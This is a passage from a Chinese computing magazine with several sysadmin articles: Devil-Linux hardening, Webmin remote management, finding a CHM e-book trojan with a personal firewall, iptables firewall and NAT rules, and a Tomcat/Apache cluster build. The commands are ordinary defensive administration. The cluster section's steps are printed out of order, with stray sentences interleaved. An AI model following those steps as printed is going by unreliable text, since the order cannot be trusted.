### for more than one route use:
#ROUTE="$ROUTE 10.90.1.252:192.168.3.0/255.255.255.0"
### if you have only a host:
#ROUTE="$ROUTE 10.90.1.251:172.16.3.14"
```

除了常规设置之外，对 Devil-Linux 所提供的各种服务，如 Web、E-mail、防火墙等的设置也和路由设置一样，熟悉 Linux 各项服务设置的系统管理员都能很快将 Devil-Linux 架设成为一台完善的 Linux 服务器。

这里重点需要说明的是 Devil-Linux 的安全性配置问题。前面提到的 GRSecurity 和 Chroot Jails 是 Devil-Linux 所拥有的两项安全模块，建议对这两项安全模块进行很好的配置。GRSecurity 的配置文件路径为 `/etc/sysconfig/grsecurity.proc`，通过修改这个文件提高内核的安全性。Linux ACL 系统配置文件为 `/etc/sysconfig/config`，Devil-Linux 技术文档中建议系统管理员对这两个文件进行配置和测试。Devil-Linux 光盘和 http://www.grsecurity.net 都提供了很详细的配置文档，限于篇幅不在本文进行详细解释。

Chroot Jails 的配置文件位于 `/etc/sysconfig/jail` 目录，例如我们要对 POSTFIX 服务进行“Chroot 监牢”，我们可以通过修改 `/etc/sysconfig/jail/POSTFIX` 文件实现。光盘中给出了一个加强对 Lotus Domino Chroot 配置的清单，其他服务程序可以根据这个清单来进行修改。希望能让大家接触到更多优秀的系统，让网络安全队伍再壮大一些。

刘流：Linux 不仅具有免费和易于定制的特点，而且它几乎承袭了 UNIX 系统的所有优点，所以赢得了很多用户的青睐。对于小型部门的管理，Linux 应该是首选。但是 Linux 操作界面是比较单一的命令行方式，管理操作极为不便。虽然当前也出现了 Linux 的 Windows 版本，但是很多核心的管理工作还需要通过命令行来实现，使很多用户望而却步。为此出现了很多远程管理 Linux 的软件，包括最早的 Telnet 以及后来的 Webmin、OpenSSH、GNORPM、VNC 等。本文通过远程管理 Linux 服务器的实际情况，介绍如何使用 Webmin 远程管理 Linux 操作系统。

适合读者：网管、Linux 爱好者  
前置知识：Linux 基本操作

### Webmin：让 Linux 远程管理也轻松

文／webxu

Webmin 是由 Jamie Cameron（http://www.webmin.com/webmin/）1997 年开发的基于 Web 界面的 Linux 系统管理工具。基于 Web 界面系统管理工具使用的方式是：系统程序可以通过 Internet 远程配置，而不考虑服务器使用的操作系统，所用的只是 Web 浏览器。在客户端桌面上，可以是 Windows 操作系统，也可是 UNIX 操作系统。

Webmin 程序提供不同管理权限的管理界面，管理员可以通过浏览器访问 Webmin 的各种管理功能并完成相应的管理动作，从而使用户可以方便地管理和使用自己远程的 Linux 主机系统，摆脱繁琐的命令行模式，安全方便地使用 Linux 系统。

图1 Web 管理页面

#### Webmin 的安装与配置

以 RedHat Linux 操作系统为例，对应的 Web 管理版本为 Webmin-1.070。可以从 http://webmin.com 站点免费下载，它是以 RPM 包形式发布的。在 Linux 操作系统的服务器上，执行安装命令“rpm -ivh webmin-1.070-1.noarch.rpm”，安装过程会询问 Webmin 配置文件目录、Log 目录和系统的监听端口（缺省是 10000，可以自己修改），还会要求你设置管理员密码。安装脚本会把 Webmin 安装成系统的守护进程，在开启系统时自动启动。

一旦安装了 Webmin，再次打开你的浏览器并转到 http://127.0.0.1:10000（你可用本地主机名或 Linux 服务器的主机名代替 127.0.0.1），在登录提示中填入 ROOT 的用户名和密码。这将带你进入 Webmin 的主页，此时访问是英文的。进入 Webmin 后，选择 Webmin Configuration -> Language，然后在 Display in language 选项里选择 Simplified Chinese（ZH_CN），再按 Change Language 即可显示成中文页面。如图1所示，在这里可以访问所有有关 Webmin 的配置参数并且可以对所有包含的工具进行快速浏览。

图2 Web 系统页面

#### 用 Webmin 实现远程管理

网络管理主要是对网络功能进行配置、监控和修改。Webmin 的主要功能之一是服务配置管理，它可以对 Linux 下运行的服务进行配置，如域名服务、文件管理服务、代理服务、Web 服务、邮件服务等，如图2所示。

本文以邮件服务器的用户和磁盘配额说明 Webmin 管理。Webmin 的模块加载方式使得它具有很好的扩展性，所有功能都以模块形式插入到 Webmin 中。Mail 服务器需要安装模块有 Sendmail 和 Openwebmail 以及 Apache 的 Perl 支持。Linux 自带 Sendmail 模块，Openwebmail 可以从 openwebmail.com 上免费下载，Openwebmail 本身没有用户管理功能，它是用操作系统上的系统用户作数据库的。

所以这样就在一定程度上提高了安全性。添加和删除用户对每位 Linux 系统管理员都是轻而易举的事，比较棘手的是如果要添加几十个、上百个甚至上千个用户时，我们不太可能还使用 useradd 一个一个地添加，必须要找一种简便的创建大量用户的方法。增加邮件用户和组，可以通过 Webmin 的强大用户管理工具进行远程配置，打开 Webmin 的远程管理系统的用户和群组配置项，可以单一添加和批量增加用户，如图3所示。

图3 用户管理页面

Linux 系统使用 Sendmail 发送邮件，配置文件是 `/etc/sendmail.cf`，默认使用 TCP/IP 协议。作为邮件服务器，在同一时刻，系统可能要收发很多邮件，因此不能让某一用户过多地占用 Sendmail 的时间。而 Sendmail 的默认配置对每次收发邮件的大小没有限制，Linux 的 Quota 程序允许为系统上每一用户或用户组指定所能使用的磁盘配额，同时可以利用磁盘配额工具限制邮件的大小。目前 Quota 仅能工作在 ext2 和 ext3 类型的文件系统上。一般 Linux 的发行版本的内核都默认包含了磁盘配额 Quota 支持。Webmin 的磁盘配额管理程序可以限制用户每次所发邮件大小，如每次收发邮件最大为 1MB，任何超过这个值的邮件将被拒绝。配置界面如图4所示。

#### Webmin 的安全性

由于早期的 Telnet 采用的是明文数据传输，数据没有加密，容易被嗅探获取，所以已经逐渐被 SSH 等采用加密形式的数据传输方式所取代。而 Webmin 远程管理的安全可以通过以下 3 方面来实现：

- SSL 支持：通过设定 Webmin 支持 SSL，即可以通过 HTTPS 访问 Webmin。SSL 不仅会认证你的 Webmin 服务器，而且还会对管理过程中的网络通信进行加密。
- 用户访问控制：用户访问控制使得管理员能够控制每个模块能够由哪些用户访问，访问某个模块的用户能够对该模块进行哪些操作等。
- IP 访问控制：IP 访问控制可以限定哪些 IP 地址可以访问这个 Webmin 服务器，不在访问列表内的 IP 地址的访问将被禁止。

图4 Sendmail 配置页面

#### 结论

作为一个 Linux 系统管理员，Webmin 可以让你比以前更快速有效地处理你的各项工作。如果你需要通过 LAN/WAN 上的另一台电脑或者互联网中的某台电脑管理你的 Linux 主机，Webmin 与 SSL 结合提供了一个安全高效的管理选择。Webmin 提供了简单的、可扩展的 GUI 管理工具，随着管理模块的不断丰富，Webmin 一定能够成为管理小型 UNIX 系统的利器。

适合读者：网民  
前置知识：无

### 用天网揪出电子书中的木马

文/图 混世魔王

古人云“书中自有颜如玉，书中自有黄金屋，书中自有千钟粟……”，可如今书中到处是木马！前几天到网络上下载了一些学习教材，大多数都是 CHM 格式，不由让人想到 CHM 木马！可惜我那可怜电脑才 128MB 内存，只装了个天网防火墙，如何用防火墙找到木马呢？捣鼓了半天才找到方法。

下面我们来合理利用资源，介绍一下用防火墙揪出隐藏在书中的木马，我这里以天网防火墙为例。首先，我们先设置防火墙，去掉“允许所有的应用程序访问网络”，并在规则中记录这些程序前面的小勾。

这样所有没有被授权而访问网络的程序，就会都被防火墙拦截。如果 CHM 书中有木马，我们运行后，木马访问网络也同样会被防火墙拦截。

我们来测试一下吧：我先做好了一个 CHM 木马，我们运行它。

出现提示了吧？HH.EXE 这个文件要访问网络，我们选择“禁止”就可以了。然后找到它的路径，删除吧！

适合读者：网管  
前置知识：Linux 基本操作

### 玩转 Linux 防火墙

文／图 风之扬

网络安全实践中，防火墙（Firewall）是被经常强调的重点，它的基本功能是过滤并阻挡本地网络与 Internet 之间的数据传送。Linux 提供了一个非常优秀的防火墙工具——Netfilter/Iptables，它完全免费、功能强大、使用灵活，可以对流入和流出的信息进行细化控制，且可以在一台低配置机器上很好地运行。本文将简单介绍使用 Netfilter/Iptables 实现防火墙架设和 Internet 连接共享等应用。

#### 基本概念

##### 1. Iptables 简介

Netfilter/Iptables 应用程序被认为是 Linux 中实现包过滤功能的第 4 代应用程序。Netfilter/Iptables 包含在 2.4 以后的内核中，它可以实现防火墙、NAT（网络地址翻译）和数据包分割等功能。Netfilter 工作在内核，而 Iptables 则是让用户定义规则集的表结构。Netfilter/Iptables 从 Ipchains 和 Ipwadm（IP 防火墙管理）演化而来，功能更加强大。下面将 Netfilter/Iptables 统一称为 Iptables。

可以用 Iptables 为 UNIX、Linux 和 BSD 个人工作站创建一个防火墙，也可以为一个子网创建防火墙以保护其他系统平台。Iptables 只读取数据包头，不会给信息流增加负担，也无需进行验证。要想获得更好的安全性，可以将它和一个代理服务器相结合。

下面将正式使用 Iptables 来创建防火墙。启动和停止 Iptables 的方法取决于所使用的 Linux 发行版，可以先查看所使用 Linux 版本的文档。一般情况下，Iptables 已经包含在 Linux 发行版中，运行 `iptables --version` 来查看系统是否安装了 Iptables。在 Red Hat 9.0 中，安装的版本是 Iptables v1.2.7a。如果系统没有安装 Iptables，则可以从 http://www.netfilter.org 下载。

典型的防火墙设置有两个网卡：一个流入，一个流出。Iptables 读取流入和流出数据包的报头，将它们与规则集（Ruleset）相比较，将可接受的数据包从一个网卡转发至另一个网卡；对被拒绝的数据包，可以丢弃或按所定义的方式处理。

关于添加、去除、编辑规则的命令，一般语法如下：

`iptables [-t table] command [match] [target]`

1. 表（table）。`[-t table]` 选项允许使用标准表之外的任何表。表是包含仅处理特定类型信息包的规则和链的信息包过滤表。有 3 个可用的表选项：`filter`、`nat` 和 `mangle`。该选项不是必需的，如果未指定，则 `filter` 作为缺省表。  
2. 命令（command）。Command 部分是 Iptables 命令最重要的部分。它告诉 Iptables 命令要做什么，例如插入规则、将规则添加到链的末尾或删除规则。  
3. 匹配（match）。Iptables 命令的可选 match 部分指定信息包与规则匹配所应具有的特征（如源地址、目的地址、协议等），匹配分为通用匹配和特定于协议的匹配两大类。这里将介绍可用于采用任何协议的信息包的通用匹配。  
4. 目标（target）。目标是由规则指定的操作，对与规则匹配的信息包执行这些操作。除了允许用户定义的目标之外，还有许多可用的目标选项，如 LOG、REDIRECT、MARK、MIRROR 和 MASQUERADE 等。

- `(-N)` 创建一个新规则表。
- `(-X)` 删除一个空规则表。
- `(-P)` 改变内建规则表的默认策略。
- `(-L)` 列出规则表中的规则。
- `(-F)` 清空规则表中的规则。
- `(-Z)` 将规则表计数器清零。
- `(-A)` 添加新规则到规则表。
- `(-I)` 插入新规则到规则表的某个位置。
- `(-R)` 替换规则表中的规则。
- `(-D)` 删除规则表中的某条规则。

##### 2. 命令和参数详解

通过向防火墙提供有关对来自某个源地址、到某个目的地或具有特定协议类型的信息包要做些什么的指令，规则控制信息包的过滤。通过使用 Iptables 系统提供的特殊命令 iptables 建立这些规则，并将其添加到内核空间特定信息包过滤表内的链中。在 RedHat 9 下，Iptables 的命令参数如图1所示。

##### 3. 查看防火墙规则

上面仅对 `iptables` 的用法做了一个简单介绍，使用中可以运行 `man iptables` 来查看所有命令和选项的完整介绍，或者运行 `iptables --help` 来查看一个快速帮助。要查看系统中现有的 `iptables` 规则集，可以运行 `iptables --list` 命令。图2是 `iptables` 的命令示范。

Linux 内核中默认有 3 个被称为“防火墙规则”的过滤表，分别是 INPUT、OUTPUT 和 FORWARD。如上例所示，每一个数据包都要通过 3 个内建链中的一个。`filter` 是最常用的表，在 `filter` 表中最常用的 3 个目标是 ACCEPT、DROP 和 REJECT。ACCEPT 表示接受信息；DROP 会丢弃数据包，不再对其进行任何处理；REJECT 会把出错信息传送至发送数据包的主机。

#### 设置安全级别

了解上述参数后，我们来看看如何为系统选择适当的安全级别。在 RedHat 9.0 中，提供一个 GUI 程序来让用户对系统的安装级别进行简单配置。该工具的启动方法是：打开“主选单”下的“系统设置”，找到“安全工具”选项，在此对安全级别进行设置。现实中一般不使用这个 GUI 工具，因为它的功能有限，也不够透明。在 Shell 提示下键入 `redhat-config-securitylevel` 命令来启动“安全级别配置工具”。如果不是根用户，它会提示你输入根口令后再继续，如图3所示。

##### 1. 高级

如果你选择了“高级”，你的系统就不会接受那些没有被你具体指定的连接（除了默认设置外）。只有以下连接是默认允许的：

- DNS 回应；
- DHCP——任何使用 DHCP 的网络接口都可以被相应地配置；
- 活跃状态 FTP（在多数客户机中默认使用的被动状态 FTP 应该能够正常运行）；
- IRC DCC 文件传输；
- RealAudio；
- 远程 X 窗口系统客户机。

如果你要把系统连接到互联网上，但是并不打算运行服务器，这是最安全的选择。如果需要额外的服务，你可以选择“定制”来具体指定允许通过防火墙的服务。

如果你在安装中选择设置了中级或高级防火墙，网络验证方法（NIS 和 LDAP）将行不通。

##### 2. 中级

如果你选择了“中级”，你的防火墙将不准你的系统访问某些资源。访问下列资源默认不允许：

- 低于 1023 的端口（标准保留端口，如 FTP、SSH、Telnet、HTTP、NIS 等）；
- NFS 服务器端口（2049），在远程服务器和本地客户机上 NFS 都已被禁用；
- 为远程 X 客户机设立的本地 X 窗口系统显示；
- X 字体服务器端口（xfs 不在网络中监听）。

如需访问 RealAudio 等资源但仍需阻塞普通系统服务访问，可选“中级”并在“定制”中放行指定服务。若安装中设置了中级或高级防火墙，NIS 和 LDAP 将行不通。

##### 3. 无防火墙

无防火墙给予完全访问权并不做任何安全检查。安全检查是对某些服务的禁用。建议你只在一个可信任的网络（非互联网）中运行时，或者你想稍后再进行详细的防火墙配置时才选此项。

##### 4. 定制

通过选择“定制”，我们可以添加信任的设备或允许其他进入接口。如图4所示。首先，被激活的是“信任的设备”区域。选择“信任的设备”中的任何一个，将会允许你的系统接受来自这一设备的全部流量，它不受防火墙规则的限制。

一个局域网，但是通过 PPP 拨号连接到了互联网上。你可以选择 [eth0]，而后所有来自你的局域网的通信将会被允许。把 [eth0] 选为“信任的”意味着所有这个以太网内的通信都是被允许的，但是 ppp0 接口仍旧有防火墙限制。如果你想限制某一接口上的通信，不要选择它。建议你不要将连接到互联网之类的公网网络上的设备定为“信任的设备”。

其次，是“允许进入”区域。启用这些选项将允许具体指定的服务穿过防火墙。注意，在工作站类型安装中，大多数这类服务在系统内没有被安装。主要包括 DHCP、SSH、Telnet、WWW（HTTP）、邮件（SMTP）等服务。

#### Iptables 配置实例

与 Ipchains 和 ipfwadm 不同的是，Iptables 可以配置有状态的防火墙。Iptables 可以检测到源地址和目的地址、源端口和目的端口及流入数据包的顺序，即 Iptables 记住了在现有连接中哪些数据包已经被允许接收。这使得暂时性的端口只有在需要时才会被打开，并且会拒绝所有永久性占用端口的请求，大大地加强了安全性。同时，那些被更改了报头的数据包，即使包含有一个被允许的目的地址和端口，也会被检测到并被丢弃。此外，有状态的防火墙能够指定并记住为发送或接收信息包所建立连接的状态。防火墙可以从信息包的连接跟踪状态获得该信息。在决定新的信息包过滤时，防火墙所使用的这些状态信息可以增加其效率和速度。

实际工作中我们会有这样的需求：让多台计算机/局域网共享一条线路访问 Internet。要实现这项功能通常有两种方法：使用 NAT（Network Address Translation），架设代理服务器（Proxy Server）。一个典型的应用环境如图 5 所示。

从上面可以看出，我们把网络划分为两个区域：Private 区和 Internet 区。对外提供服务的 Internet 服务器也放在 Private 区，和局域网其它主机使用同一网段地址。

当然，也可以不单独设 Internet 服务器，而在接入服务器上安装 Internet 服务。Linux 接入服务器就是我们下面工作的重点，它负责带动局域网内的主机访问 Internet，并保护局域网内的主机和服务器不受来自 Internet 的攻击。

##### 1. 增加规则和删除规则

实际应用中，如果要阻止来自某一特定 IP 范围内的数据包，因为该 IP 地址范围被管理员怀疑有大量恶意攻击者在活动：

```bash
# iptables -t filter -A INPUT -s xxx.xxx.xxx.0/24 -j DROP
```

也可以很轻易地阻止所有流向攻击者 IP 地址的数据包，该命令稍有不同：

```bash
# iptables -t filter -A OUTPUT -d xxx.xxx.xxx.0/24 -j DROP
```

注意这里的 `-A` 选项，使用它说明是给现有的链添加规则。网络上的恶意攻击者总是在变化的，因此需要不断改变 IP。假设一个网上攻击者转移到新的 IP 地址，而原来的 IP 地址被分配给一些清白的用户，那么这时这些用户的数据包将无法通过网络。这种情况下，可以使用带 `-D` 选项的命令来删除现有的规则：

```bash
# iptables -t filter -D OUTPUT -d 192.168.10.0/24 -j DROP
```

一旦测试结果令人满意，就可以将上述测试结果保存为脚本。可以使用 `iptables-save > iptables-script` 命令来实现。现在信息包过滤表中的所有规则都被保存在文件 `iptables-script` 中。无论何时再次引导系统，都可以使用 `iptables-restore` 命令将规则集从该脚本文件恢复到信息包过滤表，命令为 `iptables-restore iptables-script`。

创建一个具有很好灵活性、可以抵御各种意外事件的规则需要大量的时间。对于那些没有时间这样做的人，最基本的原则是“先拒绝所有的数据包，然后再允许需要的”。下面来为每一个链设置缺省的规则：

```bash
# iptables -P INPUT DROP
# iptables -P FORWARD DROP
# iptables -P OUTPUT ACCEPT
```

这里选项 `-P` 用于设置链的策略，只有 3 个内建的链才有策略。这些策略可以让信息毫无限制地流出，但不允许信息流入。

##### 2. 安全设置实例分析

下面就是这个案例的一个表述，如图 6 所示。假设上图中，中间是大院，有两扇大门①⑥进出，家里有两个房间，分别为 eth0 和 eth1 房间，每个房间有两个门可以进出②③④⑤。旁边是张三和李四的家，张三家和李四家之间的往返必须要经过院子。现在假设，“张三家”为一个局域网，“李四家”为 Internet 公网。eth0 网卡连接内网，eth1 网卡连接互联网。进我家院子用 PREROUTING，出我家院子用 FORWARD，进我家门用 INPUT，出我家门用 OUTPUT。

```bash
-A PREROUTING -p tcp --dport 8000 -j ACCEPT
-A PREROUTING -p udp --dport 8000 -j ACCEPT
-A PREROUTING -p udp --dport 4000 -j ACCEPT
-A FORWARD -p tcp --dport 1863 -j ACCEPT
-A FORWARD -p tcp --sport 1863 -j ACCEPT
-A FORWARD -p tcp --dport 443 -j ACCEPT
-A FORWARD -p tcp --sport 443 -j ACCEPT
-A FORWARD -p tcp --dport 8000 -j ACCEPT
-A FORWARD -p tcp --sport 8000 -j ACCEPT
-A FORWARD -p udp --dport 8000 -j ACCEPT
-A FORWARD -p udp --sport 8000 -j ACCEPT
-A FORWARD -p udp --dport 4000 -j ACCEPT
-A FORWARD -p udp --sport 4000 -j ACCEPT
```

- 1. 首先要从局域网访问公网，即从①号门进，再从⑥号门走出。

```bash
-A PREROUTING -p tcp --dport 80 -j ACCEPT
# 允许 TCP 80 端口通过服务器
-A FORWARD -p tcp --dport 80 -j ACCEPT
# 允许 TCP 80 端口转发
-A FORWARD -p tcp --sport 80 -j ACCEPT
# 允许接收对方为 TCP 80 端口返回的信息
```

- 2. 由于我们上网需要有一个 DNS 服务器，那就必须进行数据转发，即要使用 UDP 53 或者 TCP 53 端口。设置如下：

```bash
-A PREROUTING -p udp --dport 53 -j ACCEPT
-A FORWARD -p udp --dport 53 -j ACCEPT
-A FORWARD -p udp --sport 53 -j ACCEPT
```

- 3. 由于局域网的地址在公网中是不被允许的，所以在出公网前应该把其地址转为服务器地址进行伪装。

```bash
-A POSTROUTING -s 192.168.5.0/24 -j SNAT --to-source 218.100.100.111
```

- 4. 可以开通 MSN 和 QQ 的设置。一般来说，QQ 可以从 TCP 80、8000、443 及 UDP 8000、4000 登录，而 MSN 可以从 TCP 1863、443 登录。和上网一样，这也是访问远程服务器的指定端口，所以只用数据转发即可。

```bash
-A PREROUTING -p tcp --dport 1863 -j ACCEPT
-A PREROUTING -p tcp --dport 443 -j ACCEPT
```

- 5. Web 服务器安全访问设置。要把内网机器 192.168.10.179 的 Web 对外发布的话，相当于是从外网访问内网。与第 1 步操作的局域网共享上网相同，只是访问的方向改变了。当公网访问服务器 218.100.100.111 时，防火墙把它映射到内网的 192.168.10.179 的 TCP 80 上。当内网机器访问服务器 218.100.100.111 时，防火墙把它映射到内网的 192.168.10.179 的 TCP 80 上。部分参考语法如下：

```bash
-A PREROUTING -i eth0 -p tcp -d 218.100.100.111 --dport 80 -j DNAT --to-destination 192.168.10.179:80
-A PREROUTING -i eth1 -p tcp -d 218.100.100.111 --dport 80 -j DNAT --to-destination 192.168.10.179:80
```

综上所述，Netfilter/Iptables 的最大优点是它可以配置有状态的防火墙，这是以前的工具无法提供的一种重要功能。有状态的防火墙能够指定并记住为发送或接收信息包所建立的连接的状态，可以从信息包的连接跟踪状态获得该信息；在决定新的信息包过滤时，防火墙所使用的这些状态信息可以增加其效率和速度。另一个重要优点是，它使用户可以完全控制防火墙配置和信息包过滤。你可以定制自己的规则来满足你的特定需求，从而只允许你想要的网络流量进入系统。另外，Netfilter/Iptables 是免费的，这对于那些想要节省费用的人来说十分理想，它可以代替昂贵的防火墙解决方案，对于希望节省单位网络管理费用的管理员来说，是一种比较理想的选择。

适合读者：网管、系统设计师

前置知识：Linux 基本操作

### Tomcat 集群——实现负载均衡

文/图 squall

集群一般包括两类，一类是纯粹应用服务器的集群，各个应用服务器都访问统一的数据库服务器，但彼此并不需要共享存储。这种集群是比较简单的，往往采取各个服务器同时提供服务的方式，并且往往同时采用负载均衡技术、LVS 方式。另一类是数据库服务器（或其他需要访问存储数据的系统如 Exchange、Notes）的双机热备，这种双机热备往往是两台服务器同时使用共享的存储设备，在大多数情况下，均是采取主、备的方式，但也有高端的系统采用并行的方式，Cluster 方式。今天就让我们一起来看看用 Tomcat 组建集群实现负载均衡。

#### Redhat 集群概述

对于企业重要的应用系统而言，保证系统能持续、可靠地提供服务是非常重要的，因此就出现了对高可用性的需求和高可用性的解决方案。

数据库服务的高可用性有几种方式。第一种是最简单的，采用备机的方式。这种方式成本较低，适用于不是非常重要的应用；缺点是发生故障时仍有恢复时间。

第二种是通过软件方式实现双机热备，不采用共享存储设备，而是数据在多台主机间实时复制。优点是节省存储投资，缺点是可能有少量数据差异并影响速度。

第三种是基于共享存储设备和双机软件实现双机热备，能够提供秒级切换且不丢失数据，但投资较高。

Redhat 中的集群可用于数据库服务、文件服务、WWW 服务等，支持磁柜、电源管理、Server 间 failover 切换与负载均衡，增强了可靠性与可用性。

- 1. cluster 的工作原理：外网主机访问虚拟 IP 时，cluster 负责将请求转发给某台主机；当 A 主机瘫痪时，B 主机接管服务。
- 2. LVS 的工作原理：外网主机访问虚拟 IP 时，LVS 将请求分发到多台主机；当某台主机负载过高时自动转移到其他主机。

#### Tomcat 官方概述

Tomcat 是一个免费的开源 Servlet 容器，基于 SUN 的 JSWDK 发展而来。它不仅支持 Servlet，还提供了 Web 服务器功能，能与主流服务器协同工作，并具有较高运行效率。

#### Tomcat 与 Apache 整合

- 使用的软件：
  1. `httpd-2.0.52.tar.gz`，`http://www.apache.org/dist/httpd/httpd-2.0.52.tar.gz`
  2. `jdk-1_5_0_01-linux-i586.bin`，`http://java.sun.com/j2se/1.5.0/download.jsp`
  3. `jakarta-tomcat-5.5.6.tar.gz`，`http://www.apache.org/dist/jakarta/tomcat-5/v5.5.6/bin/jakarta-tomcat-5.5.6.tar.gz`
  4. `jakarta-tomcat-connectors-jk2-src-current.tar.gz`，`http://www.apache.org/dist/jakarta/tomcat-connectors/jk2/jakarta-tomcat-connectors-jk2-src-current.tar.gz`

### （一）安装 JDK

```bash
cp jdk-1_5_0_01-linux-i586.bin /usr/local
./jdk-1_5_0_01-linux-i586.bin
mv jdk-1_5_0_01-linux-i586 jdk
```

### （二）安装 Tomcat

```bash
cp jakarta-tomcat-5.5.6.tar.gz /usr/local
tar zxvf jakarta-tomcat-5.5.6.tar.gz
mv jakarta-tomcat-5.5.6 tomcat
```

### （三）设置系统的环境变量

```bash
vi /etc/profile
PATH=$PATH:/usr/local/jdk/bin:/usr/local/jdk/jre/bin
JAVA_HOME=/usr/local/jdk
export JAVA_HOME
CLASSPATH=.:/usr/local/jdk/lib:/usr/local/jdk/jre/lib
export CLASSPATH
CATALINA_HOME=/usr/local/tomcat
export CATALINA_HOME
```

保存后，重启：`shutdown -r now`。

### （四）安装 Apache

```bash
tar zxvf httpd-2.0.52.tar.gz
cd httpd-2.0.52
./configure --prefix=/usr/local/apache --enable-so
make
make install
```

### （五）编译 mod_jk2.so 模块

```bash
tar zxvf jakarta-tomcat-connectors-jk2-src-current.tar.gz
cd jakarta-tomcat-connectors-jk2-src-current/jk/native2
./configure --with-apxs2=/usr/local/apache/bin/apxs
make
cd ../build/jk2/apache2
/usr/local/apache/bin/apxs -n jk2 -i mod_jk2.so
```

### （六）整合 Apache + Tomcat

```bash
vi /usr/local/apache/conf/httpd.conf
# 修改网页根目录
DocumentRoot "/share/jsp/"
# 添加 index.jsp
DirectoryIndex index.jsp index.html index.htm
# 修改默认语言
AddDefaultCharset GB2312
# 加载模块
LoadModule jk2_module modules/mod_jk2.so
```

保存退出。

```bash
# 在 /usr/local/apache/conf/ 中新建文件 workers2.properties，内容如下：
[shm]
file=/usr/local/apache/logs/shm.file
size=1048576
## Example socket channel, override port and host.
[channel.socket:localhost:8009]
port=8009
host=squall.cn（或改成你自己主机的地址或 DNS）
# define the worker
[ajp13:localhost:8009]
channel=channel.socket:localhost:8009
# Uri mapping
[uri:*]
worker=ajp13:localhost:8009
```

lvs 负载均衡的工作原理，最后将其功能组合。

#### Cluster 双机的基本设置

整体结构如图 3 所示。

保存退出。

```bash
# vi /usr/local/tomcat/conf/server.xml
# 找到 <Host name="localhost" appBase="webapps" unpackWARs="true" autoDeploy="true" ...>
# 把 webapps 换成你盘柜上的目录，我这里为 /share
```

保存退出。

```bash
# cp -a * /usr/local/tomcat/webapps/ /share/
# mkdir jsp
# cp -a /share/webdav/WEB-INF /share/jsp/
# 我们编译一个 JSP 文件做测试
<%@ page import="test.TestBean" %>
<html><body><center>
<% TestBean testBean = new TestBean("This is a test java bean."); %>
Java bean name is: <%=testBean.getName()%>
</center></body></html>
# 保存为 index.jsp
# /usr/local/tomcat/bin/startup.sh（启动 Tomcat）
# /usr/local/apache/bin/apachectl configtest
# /usr/local/apache/bin/apachectl start
```

由于条件限制，我们用虚拟机完成此实验。使用的软件包括 VMware GSX、redhat-config-cluster、clumanager 等（含下载链接说明）。

### （一）安装 Linux RedHat AS3.0

| 节点 | 配置 |
|---|---|
| 主机配置 | 硬盘 2 块（SCSI0:0，SCSI1:0 作为共享硬盘）；网卡 2 块：eth0 10.0.0.1/8，eth1 192.168.0.11/24；dns 192.168.0.11；gateway 192.168.0.1 |
| 辅机配置 | 硬盘 2 块（SCSI0:0，SCSI1:0 作为共享硬盘）；网卡 2 块：eth0 10.0.0.2/8，eth1 192.168.0.12/24；dns 192.168.0.12；gateway 192.168.0.1 |

### （二）拷贝并配置另一套 Linux Redhat AS3.0 系统

将第一套系统文件复制到另一文件夹，修改 vmx 中 displayName，并处理网卡避免 MAC 地址冲突，启动系统继续检测配置。

### （七）备注

如在下次启动服务器时能自动启动 httpd 和 tomcat 进程，我们还需写入 `/etc/rc.d/rc.local` 文件里。

```bash
# echo "/usr/local/apache/bin/apachectl start" >> /etc/rc.d/rc.local
# echo "/usr/local/tomcat/bin/startup.sh" >> /etc/rc.d/rc.local
```

我们可以把 `/usr/local/apache/bin/apachectl` 和 `/usr/local/tomcat/bin/startup.sh` 复制到 `/usr/sbin` 下，减少输入路径长度。

```bash
# cp /usr/local/apache/bin/apachectl /usr/sbin/
# cp /usr/local/tomcat/bin/startup.sh /usr/sbin/
# cp /usr/local/tomcat/bin/shutdown.sh /usr/sbin/
```

### （八）测试

`http://squall.cn:8080/`（Tomcat 界面，如图 1）  
`http://squall.cn/`（整合后的 jsp 界面，如图 2）

最初工作做完了，下面演示 Cluster 和 lvs 负载均衡组合。

网卡已经不存在，直接回车进入系统。然后 `shutdown -h now` 关机。这时我们还是按照上述步骤给系统添加两块网卡，再次引导系统，这时系统会弹出一个对话框让你输入 IP 地址，用 TAB 键切换。进入系统后，你用命令 `ifconfig` 来检查一下两个系统的 MAC 地址是否一样。

## （三）配置

修改 Linux AS2 主机的主机名：

```bash
# vi /etc/sysconfig/network
# 将 HOSTNAME=rs1 改为 rs2
# service network restart
# 分别修改两台主机的 /etc/hosts 文件


```

### 主机

| IP | 主机名 | 域名 |
|---|---|---|
| 10.0.0.1 | rs1 | squall.cn |
| 192.168.0.11 | rs1 | squall.cn |
| 10.0.0.2 | rs2 | squall.net |
| 192.168.0.12 | rs2 | squall.net |

### 辅机

| IP | 主机名 | 域名 |
|---|---|---|
| 10.0.0.2 | rs2 | squall.net |
| 192.168.0.12 | rs2 | squall.net |
| 10.0.0.1 | rs1 | squall.cn |
| 192.168.0.11 | rs1 | squall.cn |

其中 10.0.0.0/8 为心跳地址。

## （四）添加共享硬盘

主机如图4、图5所示。
选择 SCSI 1:0，我这里是 WorkStation 版本，故没有。辅机如图6所示：
选择刚才主机创建的硬盘，然后在高级选项里选择 SCSI 1:0，这样就给两个系统都增加了一个共享磁盘。由于系统启动的时候会锁定磁盘，因此还要对主辅机的 `*.vmx` 文件进行修改，在最后增加一行：`disk.locking = "false"`。到这里硬件全部安装完毕，下面开始软件安装。

## （五）Cluster 软件安装

可通过 “Secure SSH Client Trial” 这个软件把程序传到虚拟机上（利用 ssh 服务），当然也可打开 FTP 和 Samba。

传好后，我们进行安装。软件下载地址：http://www.a5d.com/SoftView/SoftView_380.asp

```bash
# rpm -ivh redhat-config-cluster-1.0.2-1.1.src.rpm
# rpm -ivh clumanager-1.2.12-1.src.rpm
# cd /usr/src/redhat/SPECS
# rpmbuild -bb clumanager.spec
# rpmbuild -bb redhat-config-cluster.spec
# cd /usr/src/redhat/RPMS/i386
# rpm -ivh clumanager-1.2.12-1.i386.rpm
# rpm -ivh clumanager-debuginfo-1.2.12-1.i386.rpm
# cd /usr/src/redhat/RPMS/noarch
# rpm -ivh redhat-config-cluster-1.0.2-1.1.noarch.rpm


```

## （六）创建 rawdevices 裸设备

`# fdisk -l`（先查看一下磁盘状况），如图7所示。
`fdisk /dev/sdb`（创建分区），见图8、图9。
图8
图10
图9
图11

```bash
# 之后我们要重新引导系统：shutdown -r now 或 reboot
# mkfs.ext3 /dev/sdb1 （将 /dev/sdb1 格式化为 ext3 分区）
# mkfs.ext3 /dev/sdb2 （将 /dev/sdb2 格式化为 ext3 分区）
# vi /etc/sysconfig/rawdevices，加入如下语句：
